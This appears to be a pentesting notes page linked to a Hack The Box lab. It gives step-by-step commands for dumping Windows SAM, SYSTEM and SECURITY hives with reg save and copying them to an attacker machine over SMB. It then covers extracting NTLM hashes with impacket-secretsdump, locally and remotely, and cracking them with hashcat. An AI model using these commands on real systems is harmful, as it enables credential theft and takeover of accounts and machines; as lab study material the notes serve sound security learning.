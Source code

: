 # SAM and SYSTEM files

[Cicada HTB](https://www.hackthebox.com/machines/cicada)

The Security Account Manager (SAM) is a database file in windows that sotres user credentials, including NTLM and sometimes LM hashes of user passwords. These hashes are stored in protected registry hive and are used to authenticate users on the system.

### SAM Operation Modes:

* **Online Mode** - Requires SYSTEM user or token to access
* **Offline Mode** - Requires SYSTEM and SAM registry hives or backup files

### Location of SAM files:

```powershell
%SystemRoot%\System32\config\SAM
```

It is mounted on `HKLM\SAM`

***

### Common Locations of SAM and SYSTEM files

```powershell
%SystemRoot%\repair\SAM
%SystemRoot%\System32\config\RegBack\SAM
%SystemRoot%\System32\config\SAM
%SystemRoot%\repair\system
%SystemRoot%\System32\config\SYSTEM
%SystemRoot%\System32\config\RegBack\SYSTEM
```

**Note:** `%SystemRoot%` is usually `C:\Windows`.

***

### Extracting Windows Password Hashes

#### Step 1: Save SAM, SYSTEM and SECURITY Hives

use the `reg save` command to export the registry hives

```cmd
mkdir c:\pass
```

```cmd
reg save hklm\sam C:\pass\sam
```

```cmd
reg save hklm\system C:\pass\system
```

```cmd
reg save hklm\security C:\pass\security
```

\


#### Step 2: Transfer Files to Attacker Machine

Start an SMB server using impacket:

```bash
python smbserver.py public /home/Public
```

Alternate:

```bash
impacket-smbserver -smb2support -user user -password 12345 share /opt/share
```

copy the files over the network

```cmd
copy sam \\192.168.29.218\Public\
```

```cmd
copy system \\192.168.29.218\Public\
```

Alternative:

```bash
evil-winrm -u Administrator -p Devnull@123 -i 192.168.29.21
```

\


#### Step 3: Clone and install Impacket

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

```bash
cd impacket
```

```bash
pip install .

```

\


#### Step 4: Extract Password Hashes with `secretsdump`

```bash
impacket-secretsdump -sam sam -security security -system system LOCAL
```

\


#### Step 5: Save the NTLM hash to a file

```bash
<hash> > hash.txt
```

\


#### Step 6: Crack NTLM Hash with `hashcat`

```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlist/rockyou.txt -o hash.out.txt
```

***

\


### Dumping Remote Hashes using `secretsdump`

```bash
impacket-secretsdump <hostname>/<username>:<password>@<target_IP>
```

**you can use the above command without hostname as well**

\


***

### Extracting BootKey from SYSTEM Hive

```cmd
bkhive system bootkey.txt
```

***

### Tips and Best Practices

* Do not change password
* Only work when you are administrator
* generally used when you want to go to different machine/account via this.
* database of non AD user/local PC database
